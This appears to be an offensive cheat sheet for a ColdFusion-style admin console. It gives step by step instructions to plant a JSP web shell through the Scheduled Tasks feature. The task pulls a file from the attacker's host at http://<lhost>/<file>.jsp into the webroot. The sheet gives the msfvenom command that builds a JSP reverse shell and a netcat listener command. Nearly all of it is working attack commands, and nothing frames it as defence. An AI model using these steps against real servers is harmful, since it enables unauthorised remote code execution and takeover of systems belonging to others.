 ### get path to webroot
```
Server Settings > Mappings
```

### get reverse shell using scheduled task
```
Debugging & Logging > Scheduled Tasks > Schedule New Task
```

### insert parameters
```
Task Name: <name>
URL: http://<lhost>/<file>.jsp
Check: Save output to a file
File: <path>\<file>.jsp
Submit
```

### generate reverse shell
```
msfvenom -p java/jsp_shell_reverse_tcp lhost=<lhost> lport=<lport> -f raw > <file>.jsp
```

### start listener
```
nc -lnvp <lport>
```

### start task
```
Actions > Run Scheduled Task
```

